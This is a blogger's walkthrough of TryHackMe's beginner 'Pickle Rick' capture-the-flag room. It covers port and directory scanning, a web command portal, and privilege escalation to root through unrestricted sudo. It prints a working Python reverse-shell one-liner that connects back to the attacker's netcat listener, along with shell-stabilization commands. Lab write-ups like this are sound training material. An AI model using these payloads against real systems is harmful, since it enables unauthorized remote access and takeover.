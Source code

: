 # Pickle Rick
**Date:** January 20th 2022

[**Link**](https://tryhackme.com/room/picklerick) to the Pickle Rick CTF on TryHackMe.

This is rated as an easy CTF for beginners.

<br>

## Objectives

This CTF requires that you find the following:
- What is the first ingredient Rick needs?
- What is the second ingredient Rick needs?
- What is the third ingredient Rick needs?

<br>

## Nmap Scan

I start with an `nmap` scan to see which ports are open:
```
sudo nmap -sC -sV -A -oN rick.nmap 10.10.172.250
```
We only see 2 - ssh and http:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 89:78:34:72:cf:f7:19:26:15:12:c2:4e:9e:7f:c9:d9 (RSA)
|   256 4c:25:1a:7a:25:87:a5:7e:18:12:07:21:30:03:98:ad (ECDSA)
|_  256 76:58:15:13:d9:04:f3:b2:e0:b9:41:14:e2:bd:b9:83 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br>

## Website

Not having much to go on at this point I start with the website:

![](images/picklerick1.png)

It seems Rick needs our help finding 3 secret ingredients or he'll be stuck as a pickle forever, and we can't have that!

Viewing the page source code shows an interesting comment:
```
<!--

    Note to self, remember username!

    Username: <REDACTED>

  -->
```
Now we have a username so that's a start. Let's check to see if there is anything else interesting on the website by running a `gobuster` scan:
```
gobuster dir -u http://10.10.172.250 -w /usr/share/wordlists/dirb/common.txt -t 50 -r -o rick.buster -x php,txt,html 2& > /dev/null
```
The scan shows a few additional things to check out:
```
/assets               (Status: 200) [Size: 2192]
/denied.php           (Status: 200) [Size: 882] 
/login.php            (Status: 200) [Size: 882] 
/portal.php           (Status: 200) [Size: 882] 
/robots.txt           (Status: 200) [Size: 17]
```
/assets does not provide anything useful that I can see, but does have some pictures if you want to check them out.

Looking at robots.txt shows only a short string of text:
```
<REDACTED>
```

The denied.php and login.php files give you a login page. After logging in you are redirected to portal.php.

![](images/picklerick2.png)

Given we have a username and a string of text from the robots.txt file let's try those as a login combo on the page.

We're in! Of the menu bar options at the top it looks like only the Commands tab is useful to us:

![](images/picklerick3.png)

Running the `ls` command displays a list of files so we are able to execute commands directly on the webserver via this interface:
```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```
Running `cat Sup3rS3cretPickl3Ingred.txt` displays an error saying the command is disabled so we can't display the file contents that way.

I then tried `less Sup3rS3cretPickl3Ingred.txt` as a work around which was successful and gives us the answer for the first ingredient:
```
<REDACTED>
```

`less clue.txt` shows:
```
Look around the file system for the other ingredient.
```
1 down and 2 to go!

<br>

## Getting a shell

Still on the website I check to see if python3 is available with `which python3` and it is:
```
/usr/bin/python3
```

Let's see if we can get a reverse shell here. I set up a listener on my system with `nc -nvlp 4444`:
```
nc -nvlp 4444
listening on [any] 4444 ...
```

And then find a reverse shell payload on [**revshells.com**](https://www.revshells.com/). I'm going with Python3 #1.
```
export RHOST="<YOUR IP>";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

After executing the command above we get a shell back on our listener!
```
connect to [<MY IP>] from (UNKNOWN) [10.10.172.250] 53856
$ whoami
whoami
www-data
$ hostname
hostname
ip-10-10-172-250
$
```

Let's stabilize the shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ip-10-10-172-250:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@ip-10-10-172-250:/var/www/html$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                       
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg                                                                       148 ⨯ 1 ⚙
[1]  + continued  nc -nvlp 4444

www-data@ip-10-10-172-250:/var/www/html$
```

Running an `ls` command displays the files from above and you can `cat Sup3rS3cretPickl3Ingred.txt` and `cat clue.txt` at this point if you didn't already display them on the website.

Taking a look at the /home directory shows us a directory for **rick**, and looking inside gives us the answer for the second ingredient:
```
www-data@ip-10-10-172-250:/var/www/html$ cd /home
www-data@ip-10-10-172-250:/home$ ls
rick  ubuntu
www-data@ip-10-10-172-250:/home$ cd rick
www-data@ip-10-10-172-250:/home/rick$ ls
second ingredients
www-data@ip-10-10-172-250:/home/rick$ cat "second ingredients"  
<REDACTED>
```

Now let's see about privilege escalation. Anything listed on `sudo -l`?
```
www-data@ip-10-10-172-250:/home/rick$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-172-250.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-172-250.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

Well, that was easy! No need to run linpeas or anything when we can run all commands as root with sudo. Let's `sudo /bin/bash` to get root:
```
www-data@ip-10-10-172-250:/home/rick$ sudo /bin/bash
root@ip-10-10-172-250:/home/rick#
```

Let's take a look at the /root directory:
```
root@ip-10-10-172-250:/home/rick# cd /root
root@ip-10-10-172-250:~# ls
3rd.txt  snap
root@ip-10-10-172-250:~# cat 3rd.txt
3rd ingredients: <REDACTED>
```

And we now have all 3 ingredients allowing us to get Rick out of the pickle he's in. Ok that was a terrible joke I admit.

![](images/picklerick4.png)

Many thanks to **TryHackMe** for creating and hosting this fun Rick and Morty themed CTF. I had a blast going through it.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
